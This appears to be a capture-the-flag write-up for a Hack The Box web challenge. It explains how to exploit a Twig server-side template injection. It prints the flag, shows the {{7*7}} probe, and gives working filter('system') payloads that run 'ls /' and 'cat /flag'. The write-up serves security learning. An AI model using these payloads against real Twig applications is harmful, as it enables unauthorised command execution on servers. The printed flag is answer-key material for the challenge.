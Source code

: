 #baby bonechewercon (Web)

![date](https://img.shields.io/badge/date-05%2F03%2F2021-brightgreen)  
![solved in time of CTF](https://img.shields.io/badge/solved-in%20time%20of%20CTF-brightgreen.svg)  
![blockchain category](https://img.shields.io/badge/difficulty-medium-yellow)
![hard dificulty](https://img.shields.io/badge/category-web-blue)

## Flag
``
HTB{b3nt_tw1g_t0_my_will!}
``

## Solution

Starting with reading the description of the challenge it notified us about SSTI feng shui, so it's probably a server side template injection vulnerability

![challinfo](1.png "Challenge Info")

Looking at the files we see PHP is used with Twig, which is a is a template engine for PHP. The web page provide us a form to register a name. Registering a name we get a greeting response with the value we passed to it.

![web1](2.png "web1")

So we start exploiting this vulnerability with a very simple payload, {{7*7}}, to check if it's going to evaluate so we have the following:
```
http://docker.hackthebox.eu:31119/?name={{7*7}}
```
And we get back 49! So it's vulnerable to SSTI.
![web2](3.png "web2")

Now we can get remote code execution and list the root folder with the following payload:

```
{{['ls /']|filter('system')}}
```

![web5](5.png "web5")

We see the flag file there so we just need to read it:
```
{{['cat /flag']|filter('system')}}
```
![web6](6.png "web6")
